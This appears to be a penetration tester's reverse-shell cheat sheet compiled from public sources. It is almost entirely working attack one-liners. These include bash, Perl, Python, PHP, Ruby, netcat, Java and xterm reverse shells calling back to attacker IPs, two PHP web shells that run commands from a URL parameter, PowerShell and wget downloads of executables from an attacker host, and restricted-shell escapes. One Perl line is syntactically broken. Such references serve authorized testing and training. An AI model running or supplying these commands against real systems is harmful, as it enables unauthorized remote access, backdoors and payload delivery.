 # Simple bash revshell
```bash -i >& /dev/tcp/10.11.0.130/443 0>&1```

# Bash FIFO
```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.130 443 >/tmp/f```

# Perl
```
perl -e 'use Socket;$i="10.11.0.130";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
# Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.185",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
# PHP
```php -r '$sock=fsockopen("10.11.0.185",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```

# Ruby
```ruby -rsocket -e'f=TCPSocket.open("10.11.0.185",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d2>&%d",f,f,f)'```
# netcat
```nc -e /bin/sh 10.11.0.130 443```

-https://highon.coffee/blog/reverse-shell-cheat-sheet/

#### PHP
```<?php echo shell_exec($_GET['cmd']);?>```

```<?php system($_GET['cmd']);?>```

#### JAVA
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line
2>&5 >&5; done"] as String[])
p.waitFor()
```

#### Powershell
Powershell 2
```(new-object System.Net.WebClient).Downloadfile("http://10.11.0.185/accesschk.exe","C:\lec\accesschk.exe")```

#### Powershell 3
```Invoke-WebRequest "http://10.11.0.130/adfsys.exe" -OutFile "adfsys.exe"```

```Wget/fetch```

```Wget http://10.11.0.130/test.txt -o C:\temp\test.txt```

#### xterm
"One of the simplest forms of reverse shell is an xterm session. 
The following command should be run on the server. It will try to connect back to you (10.0.0.1) on TCP port 6001:

```xterm -display 10.0.0.1:1```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). 

One way to do this is with Xnest (to be run on your system):

```Xnest :1```

You’ll need to authorise the target to connect to you (command also run on your host):

```xhost +targetip```

#### Shell Escape; from Shellcatraz
```
python -c 'import pty; pty.spawn("/bin/sh")'

echo os.system('/bin/bash')

/bin/sh -i

perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"

lua: os.execute('/bin/sh')
(From within IRB)

exec "/bin/sh"
(From within vi)

:!bash
(From within vi)

:set shell=/bin/bash:shell
(From within nmap)

!sh
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
